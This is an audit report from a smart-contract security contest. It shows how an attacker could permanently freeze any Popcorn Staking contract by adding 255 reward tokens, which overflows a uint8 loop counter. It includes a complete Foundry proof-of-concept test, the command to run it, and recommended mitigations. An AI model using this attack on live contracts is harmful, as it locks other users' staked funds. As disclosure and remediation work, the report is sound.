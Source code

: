 ## Tags

- bug
- 2 (Med Risk)
- downgraded by judge
- primary issue
- selected for report
- sponsor confirmed
- M-32

# [DOS any Staking contract with Arithmetic Overflow](https://github.com/code-423n4/2023-01-popcorn-findings/issues/165) 

# Lines of code

https://github.com/code-423n4/2023-01-popcorn/blob/main/src/vault/VaultController.sol#L108-L110
https://github.com/code-423n4/2023-01-popcorn/blob/main/src/vault/VaultController.sol#L448
https://github.com/code-423n4/2023-01-popcorn/blob/main/src/utils/MultiRewardStaking.sol#L112
https://github.com/code-423n4/2023-01-popcorn/blob/main/src/utils/MultiRewardStaking.sol#L127
https://github.com/code-423n4/2023-01-popcorn/blob/main/src/utils/MultiRewardStaking.sol#L141
https://github.com/code-423n4/2023-01-popcorn/blob/main/src/utils/MultiRewardStaking.sol#L170
https://github.com/code-423n4/2023-01-popcorn/blob/main/src/utils/MultiRewardStaking.sol#L373


# Vulnerability details

## Impact
This allows attackers to disable any Staking contract deployed via the system, essentially locking up all funds within the Staking contract. It would lead to a significant loss of funds for all users and the protocol who have staked their Vault tokens. All Staking contracts can be disabled by an attacker. The attack is possible once vault deployments become permissionless which is the primary goal of the Popcorn protocol. 

## Proof of Concept
The attack is possible because of the following behaviors:
1. Any Vault creator can use any Staking contract that was previously deployed by the system - https://github.com/code-423n4/2023-01-popcorn/blob/main/src/vault/VaultController.sol#L108-L110
2. Any Vault creator can add rewards tokens to the Staking contract attached to their Vault. Note that this Staking contract could be the same contract used by other vaults - https://github.com/code-423n4/2023-01-popcorn/blob/main/src/vault/VaultController.sol#L448
3. There are no checks to limit the number of rewardTokens added to a Staking contract - https://github.com/code-423n4/2023-01-popcorn/blob/main/src/utils/MultiRewardStaking.sol#L263
4. All critical functions in the Staking contract such as withdraw, deposit, transfer and claimRewards automatically call `accrueRewards` modifier.
5. `accrueRewards` iterates through all rewardTokens using a uint8 index variable - https://github.com/code-423n4/2023-01-popcorn/blob/main/src/utils/MultiRewardStaking.sol#L373


First, `verifyCreatorOrOwner` needs to be fixed so that it allows either creator or owner to run functions it protects like it's meant to with the below code:

```solidity
if (msg.sender != metadata.creator && msg.sender != owner) revert NotSubmitterNorOwner(msg.sender);
```

Once this fix is implemented and the protocol enables permissionless vault deployment, the following attack path opens up:

1. Some legit vaults have already been deployed by owner of the protocol or others and they have a Staking contract with significant funds
2. Attacker deploys vault using the same Staking contract deployed by any other vault owner/creator. This Staking contract is the target contract to be disabled.
3. Attacker adds 255 reward tokens to the Staking contract to trigger DOS in any future transactions in the Staking contract
4. Calling any transaction function in the Staking will always revert due to arithmetic overflow in the `accrueRewards` modifier that loops over all the `rewardTokens` state variable. The overflow is caused since the `i` variable used in the for loop inside accrueRewards uses uint8 and it keeps looping as long as `i < rewardTokens.length`. That means if `rewardTokens` has a length of 256, it will cause `i` uint8 variable to overflow.

The steps for described attack can be simulated with the below test that will need to be added to the `VaultController.t.sol` test file:

```solidity
  function test__disable_any_staking_contract() public {
    addTemplate("Adapter", templateId, adapterImpl, true, true);
    addTemplate("Strategy", "MockStrategy", strategyImpl, false, true);
    addTemplate("Vault", "V1", vaultImpl, true, true);

    // 1. deploy regular legit vault owned by this
    address vault = deployVault();
    address staking = vaultRegistry.getVault(vault).staking;

    vm.startPrank(alice);
    // 2. deploy attacker-owned vault using the same Staking contract as legit vault
    // alice is the attacker
    address attackerVault = controller.deployVault(
      VaultInitParams({
        asset: iAsset,
        adapter: IERC4626(address(0)),
        fees: VaultFees({
          deposit: 100,
          withdrawal: 200,
          management: 300,
          performance: 400
        }),
        feeRecipient: feeRecipient,
        owner: address(this)
      }),
      DeploymentArgs({ id: templateId, data: abi.encode(uint256(100)) }),
      DeploymentArgs({ id: 0, data: "" }),
      staking,
      "",
      VaultMetadata({
        vault: address(0),
        staking: staking,
        creator: alice,
        metadataCID: metadataCid,
        swapTokenAddresses: swapTokenAddresses,
        swapAddress: address(0x5555),
        exchange: uint256(1)
      }),
      0
    );

    // 3. Attacker (Alice) adds 255 reward tokens to the Staking contract
    bytes[] memory rewardsData = new bytes[](255);
    address[] memory targets = new address[](255);
    for (uint256 i = 0; i < 255; i++) {
      address _rewardToken = address(
        new MockERC20("Reward Token", string(abi.encodePacked(i)), 18)
      );

      targets[i] = attackerVault;
      rewardsData[i] = abi.encode(
        _rewardToken,
        0.1 ether,
        0,
        true,
        10000000,
        2 days,
        1 days
      );
    }
    controller.addStakingRewardsTokens(targets, rewardsData);

    asset.mint(alice, 100 ether);
    asset.approve(vault, 100 ether);
    IVault(vault).deposit(100 ether, alice);
    IVault(vault).approve(staking, 100 ether);

    // 4. This Staking.deposit call or any other transaction will revert due to arithmetic overflow
    // essentially locking all funds in the Staking contract.
    IMultiRewardStaking(staking).deposit(90 ether, alice);
    vm.stopPrank();
  }
```

Please be reminded to fix `verifyCreatorOwner` first before running the above test. Running the test above will cause the call to `Staking.deposit` to revert with an `Arithmetic over/underflow` error which shows that the Staking contract has successfully be DOS'd. The following is the command for running the test:
```
forge test --no-match-contract 'Abstract' --match-test test__disable_any_staking_contract
```


## Tools Used
VSCode, Foundry

## Recommended Mitigation Steps

1. https://github.com/code-423n4/2023-01-popcorn/blob/main/src/vault/VaultController.sol#L108-L110 - users shouldn't be allowed to deploy using just any Staking contract for their vaults. Because of this, any Vault creator can manipulate a Staking contract which leads to the DOS attack path.
2. https://github.com/code-423n4/2023-01-popcorn/blob/main/src/utils/MultiRewardStaking.sol#L263 - add a check to limit the number of rewardTokens that can be added to the Staking contract so that it does not grow unbounded.
3. https://github.com/code-423n4/2023-01-popcorn/blob/main/src/utils/MultiRewardStaking.sol#L371-L382 - calculation in rewards accrual should be changed so that it does not have to iterate through all rewards tokens. There should be one global index used to keep track of rewards accrual and only that one storage variable will be updated so that gas cost does not increase linearly as more rewardTokens are added.